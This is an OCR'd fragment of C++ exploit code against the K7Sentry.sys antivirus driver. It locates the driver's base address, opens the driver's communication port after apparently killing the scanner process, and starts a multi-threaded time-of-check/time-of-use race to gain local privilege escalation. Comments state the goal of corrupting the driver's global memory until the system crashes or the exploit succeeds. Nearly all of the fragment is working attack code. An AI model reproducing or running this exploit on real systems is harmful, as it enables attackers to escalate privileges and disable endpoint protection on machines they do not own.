 ```C++
}

LPVOID GetDriverBaseAddress(PWSTR pszDriverName)
{
	LPVOID arrDriverBases[0x1000] = { 0 };
	DWORD cbNeeded = 0;

	if (EnumDeviceDrivers(arrDriverBases, sizeof(arrDriverBases), &cbNeeded))
	{
		for (DWORD i = 0; i < cbNeeded / sizeof(arrDriverBases[0]); ++i)
		{
			WCHAR szDriverName[MAX_PATH] = { 0 };
			if (GetDeviceDriverBaseNameW(arrDriverBases[i], szDriverName, _countof(szDriverName)))
			{
				printf("0x%p\t%S\r\n", arrDriverBases[i], szDriverName);

				if (wcsncmp(szDriverName, pszDriverName, wcslen(pszDriverName)) == 0)
				{
					return arrDriverBases[i];
				}
			}
		}
	}

	return NULL;
}


int wmain(int argc, wchar_t** argv)
{
	//
	// Get the base address of the driver because we need it to pass into a IOCtl
	//
	g_k7Base = GetDriverBaseAddress(L"K7Sentry.sys");
	printf("DriverBase: 0x%p\r\n", g_k7Base);

	//
	// Open a handle to the communications port. This is required to pass some of the jmp statements.
	// Typically this is opened by the K7RTScan application but we've just killed that off!
	//
	HANDLE hCommPort;
	HRESULT hr = FilterConnectCommunicationPort(L"\\K7SentryCommPort1", 0, 0, 0, 0, &hCommPort);
	if (!SUCCEEDED(hr))
	{
		printf("Couldn't create communication port: 0x%08x\r\n", hr);
		return 0;
	}
	
	//
	// The goal of the next bit is to have the driver's global memory in a state which will pass one 
	// check, early on in the code, and that global memory to be changed before it is used a few
	// instructions later.
	// Therefore we have three threads:
	// * One which sets specific bits of gloabl memory to K and 00 to pass the check
	// * One which sets the same partfs ot global memory to K and FF to make it exploitable
	// * An attempt thread which keeps trying to call the vulnerable functions
	// There is no side effect to an attempt so you can keep trying.
	//
	printf("Attempting LPE TOCTOU, fingers crossed for BLUE or breakin in the debugger...\r\n");

	HANDLE hSetGlobalsThread = CreateThread(NULL, 0, TpSetExploitMagics, NULL, 0, NULL);
```